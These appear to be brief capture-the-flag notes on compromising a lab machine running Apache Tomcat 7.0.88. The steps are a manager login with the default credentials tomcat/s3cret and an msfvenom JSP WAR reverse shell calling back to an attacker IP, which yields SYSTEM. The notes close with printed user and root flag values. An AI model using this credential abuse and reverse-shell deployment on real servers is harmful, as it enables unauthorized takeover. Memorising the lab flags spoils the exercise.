 # 10.10.10.95 - arctic
## port 8080 --> apache tomcat 7.0.88
### /manager
- looked up default creds for apache tomcat
	* username: tomcat
	* password: s3cret
- under the access denied page if I read closer it tells me the username and password right there
```
For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above. 
```

- http PUT option exists, can put an asp/jsp file on the server and deploy it through the admin console
- no need to put a file since we already have a login

### create a jsp war reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1985 -f war > x86-payload-jsp.war
```
- msfvenom is the perfect tool

- upload the file to apache tomcat and deploy it to the server
- set up a listener
- go to that webpage 
#### I am authority\system
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
## Easy win
```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

```
